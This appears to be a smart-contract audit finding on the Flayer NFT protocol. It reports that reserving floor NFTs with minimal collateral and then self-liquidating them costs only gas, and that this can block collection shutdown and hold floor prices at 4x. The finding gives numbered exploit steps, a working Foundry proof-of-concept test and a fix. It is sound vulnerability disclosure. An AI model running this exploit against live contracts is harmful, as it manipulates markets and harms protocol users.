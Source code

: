 Crazy Chiffon Spider

High

# Lockbox listings can be self-liquidated for Free, allowing all floor deposits to be placed into Liquidation Dutch Listings.

## Summary
The `reserve()` function in `Listings.sol` can be called for free for **floor NFTs** deposited into `Locker.sol`. This allows someone to list all of the NFTs deposited into `Locker.sol` via `deposit()` for **floor value** and place them in an **infarable position** that will soon liquidate, leading to **Dutch auctions** starting with very unrealistic prices, as liquidation **Dutch auctions** start with a **4x floorMultiplier**.

This can also happen without using `reserve()`, as one can call `redeem()` in `Locker.sol`. Then go to ProtectedListings and create a protected listing with the max borrow amount, and then self-liquidate.

## Vulnerability Detail
This issue arises because our `max borrow amount` [0.95] + `keep reward` [0.05] equals the value of the NFT = 1 CT or 1 floor price. 

The reserve operation is essentially a quick way to do it. It "buys/redeems" the floor priced NFT and then creates a LockBox/ProtectedListing. 
The minimum collateral for reserve() is `0.05e18`, because for a LockBox, the maximum borrowable amount is `0.95e18`, defined by the `MAX_PROTECTED_TOKEN_AMOUNT` constant in ProtectedListings, validated [here](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/ProtectedListings.sol#L230).

```solidity
        createProtectedListing[0] = IProtectedListings.CreateListing({
            collection: _collection,
            tokenIds: tokenIds,
            listing: IProtectedListings.ProtectedListing({
                owner: payable(address(this)),
@>>             tokenTaken: uint96(1 ether - _collateral),
                checkpoint: 0 // Set in the `createListings` call
            })
        });
```
So we can essentially recover those `0.05 CT` from the `KEEPER_REWARD`.

### Exploit Process:
1. A bad actor calls `reserve()` and deposits **0.05e18** collateral to create a listing, since collateral is the minimum the listing is **very close to liquidation**.
2. The bad actor submits another transaction, calling `liquidateProtectedListing()`, which is possible as the position is now unhealthy due to the compound fees applied even with just **1 second delay**.
3. The bad actor earns the **KEEPER_REWARD**, which is **0.05e18** and is paid immediately. This means they effectively pay **only gas fees**, which are low on the **Base L2**, where the protocol is deployed.
4. The bad actor can repeat this process in **chunks** by submitting only **2 transactions** but reserving all the NFTs deposited in `Locker.sol` and listing them as liquidation listings.

### Coded PoC
Add this to Listings.t.sol and use `forge test --match-test test_VectorFreeLiqudationListing -vvvv`
```solidity
    function test_VectorFreeLiqudationListing() public {
        //===========Setup===========
        listings.setProtectedListings(address(protectedListings));
        ICollectionToken token = locker.collectionToken(address(erc721a));
        assertEq(token.denomination(), 0);

        address randomNFTOwner = address(0x77);
        uint _tokenId = 2555;
        erc721a.mint(randomNFTOwner, _tokenId);

        address maliciousActor = address(0x78);
        deal(address(token), maliciousActor, 1 ether);

        // Balance Delta tracking
        uint startBalanceMaliciousActor = token.balanceOf(maliciousActor);
        assertEq(startBalanceMaliciousActor, 1 ether);
        //===========Setup===========
    
        vm.startPrank(randomNFTOwner);

        erc721a.approve(address(locker), _tokenId);
        locker.deposit(address(erc721a), _tokenIdToArray(_tokenId));
        
        vm.stopPrank();

        // Malicious actor liquidates floor listing for free.
        vm.startPrank(maliciousActor);
        
        // First reserve it.
        token.approve(address(listings), 0.05 ether);
        listings.reserve({
            _collection: address(erc721a),
            _tokenId: _tokenId,
            _collateral: 0.05 ether
        });

        // 1 second later submit another transaction
        // Note: this can be scalled by reserving multiple NFTs in the first transaction and liquidating them in the second one.
        skip(1);

        // Liquidate the listing
        protectedListings.liquidateProtectedListing(address(erc721a), _tokenId);

        // Assert no loss of funds for the malicious actor
        assertEq(token.balanceOf(maliciousActor), startBalanceMaliciousActor);

        // Skip 5 days to bring the liquidation listing to lower floor multiple again.
        skip(5 days);

        //Repeat the process, but now reserve the liquidation listing. ( we have to use different address, but this is not a problem)
        address maliciousActor2 = address(0x79);
        deal(address(token), maliciousActor2, 1 ether);
        
        vm.startPrank(maliciousActor2);

        token.approve(address(listings), 0.05 ether);
        listings.reserve({
            _collection: address(erc721a),
            _tokenId: _tokenId,
            _collateral: 0.05 ether
        });

        skip(1);

        protectedListings.liquidateProtectedListing(address(erc721a), _tokenId);
       //Bad actor did not lose any balance
        assertEq(token.balanceOf(maliciousActor2), 1 ether);
    }
```    
## Impact

The potential consequences are as follows:
1. **CollectionShutdown** requires 4 CT in totalSupply and no Protected, Liquid, or Dutch listings running. If an NFT is deposited in `Locker.sol`, a bad actor can essentially **DoS the shutdown**. The only way to rescue the shutdown would be for someone to **buy it with their CT**, but there's **no incentive** to do this, as the CT can be used later to claim rewards from NFTs sold on sudoswap.
2. **Floor-priced NFTs** are valued at the floor for a reason. If this operation can be done **for free**, the process can be **repeated indefinitely**. After 4 days of high prices, the bad actor can repeat the process at no cost, keeping floor NFTs artificially **expensive** ( up to 4x floor price ):
```solidity
        _listings.createLiquidationListing(
            IListings.CreateListing({
                collection: _collection,
                tokenIds: tokenIds,
                listing: IListings.Listing({
                    owner: listing.owner,
                    created: uint40(block.timestamp),
@>>                 duration: 4 days,
@>>                 floorMultiple: 400
                })
            })
        );
```        

## Tool Used

**Manual Review**

## Recommendation
To avoid this problem, reduce the max borrow amount from `0.95 CT` to a lower value, like `0.9 CT`, or even lower. 
Then it will not be possible to do this operation for free.
